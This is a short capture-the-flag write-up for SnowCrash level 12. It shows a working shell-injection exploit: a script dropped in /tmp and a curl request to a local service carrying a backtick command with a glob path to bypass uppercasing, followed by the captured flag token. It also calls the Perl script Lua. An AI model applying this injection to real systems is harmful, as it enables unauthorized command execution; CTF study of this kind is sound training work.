 # Snowcrash12

Same story, different script

```sh
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
The goal is also shell injection as the input is part of the command

Lua uses a lot of regex to modify it's strings  
Thus, our input gets in the command in uppercase so it cannot be a path to a command

But since it uses regex, we can do stuff like '/*/PAYLOAD' and it can be resolved to /tmp/PAYLOAD

The payload looks something like this 
```shell
echo "#!/bin/bash
getflag > /tmp/logfile" > /tmp/PIKA

#Then just send it
level12:~$curl 'localhost:4646?x=`/*/pika`'

level12:~$cat /tmp/logfile`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

```
Nice and easy